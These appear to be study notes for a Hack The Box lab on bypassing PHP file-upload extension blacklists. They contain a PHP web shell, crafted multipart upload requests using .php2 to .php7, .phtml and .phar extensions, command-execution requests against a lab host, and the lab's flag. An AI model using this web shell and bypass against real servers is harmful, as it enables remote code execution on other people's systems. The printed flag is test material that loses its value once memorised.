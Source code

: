 # Blacklist Filters

If the type validation controls on the back-end server were not securely coded, an attacker can utilize multiple techniques to bypass them and reach PHP file uploads.

## Blacklisting Extensions

If we got an error message like Extension not allowed

There are generally two common forms of validating a file extension on the back-end:

1. Testing against a blacklist of types
2. Testing against a whitelist of types

Blacklist is weakest than whitelist

Example of code :

$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}

Tip: The comparison above is also case-sensitive so we may try pHp extension

## Fuzzing Extensions

- Burp History
- Locate our last request to /upload.php
- Right-click and send to Intruder
- Select the .php extension in filename="HTB.php" and click the Add button to add it as a fuzzing position
- Load the PHP extensions list from above in the Payloads tab under Payload Options
- Un-tick the URL Encoding option
- Start Attack
- Sort the results by Length to identify success and failures

## Non-Blacklisted Extensions

--> Not all extensions will work with all web server configurations

- Let's use the .phtml extension
- Right-click on its request in the Intruder results and select Send to Repeater
- Changing the file name to use the .phtml extension
- Changing the content to that of a PHP web shell

http://SERVER_IP:PORT/profile_images/shell.phtml?cmd=id

## LAB

Content-Disposition: form-data; name="uploadFile"; filename="htb§.jpg§"

/opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt

.php2
.php3
.php4
.php6
.php7

echo "<?php system($_GET['cmd']); ?>" > shell.php2

Response Body
onchange="checkFile(this)"
onchange=""


------WebKitFormBoundaryo2e3LPSXPrfCDsAF
Content-Disposition: form-data; name="uploadFile"; filename="shell.php2"
Content-Type: application/octet-stream

<?php system(['cmd']); ?>

------WebKitFormBoundaryo2e3LPSXPrfCDsAF--

http://83.136.250.104:31697//profile_images/shell.php2?cmd=id
<?php system(['cmd']); ?>


echo "<?php system($_GET['cmd']); ?>" > shell.php6

------WebKitFormBoundaryUW9uqzvcLxoyxphj
Content-Disposition: form-data; name="uploadFile"; filename="shell.php6"
Content-Type: application/octet-stream

<?php system(['cmd']); ?>

------WebKitFormBoundaryUW9uqzvcLxoyxphj--

http://83.136.250.104:31697//profile_images/shell.php6?cmd=id
<?php system(['cmd']); ?>

echo "<?php system($_GET['cmd']); ?>" > shell.php4
echo "<?php system($_GET['cmd']); ?>" > shell.php3

http://83.136.250.104:31697//profile_images/shell.php?cmd=id
<?php system(['cmd']); ?>

echo "<?php system($_GET['cmd']); ?>" > shell.php7

------WebKitFormBoundaryyAgZW0h3I2HLOEM8
Content-Disposition: form-data; name="uploadFile"; filename="htb§.jpg§"
Content-Type: image/jpeg

<?php echo '<p>Hello World</p>'; ?>
------WebKitFormBoundaryyAgZW0h3I2HLOEM8--

GET //profile_images/htb§.php2§ HTTP/1.1
Host: 83.136.250.104:31697

git clone https://github.com/swisskyrepo/PayloadsAllTheThings/
vi PayloadsAllTheThings/Upload\ Insecure\ Files/Extension\ PHP/extensions.lst 

------WebKitFormBoundaryePc1eWTbsBbqTWjF
Content-Disposition: form-data; name="uploadFile"; filename="htb§.jpg§"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryePc1eWTbsBbqTWjF--

http://83.136.250.104:31697//profile_images/htb.phar?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

http://83.136.250.104:31697//profile_images/htb.phar?cmd=cat%20/flag.txt
HTB{1_c4n_n3v3r_b3_bl4ckl1573d}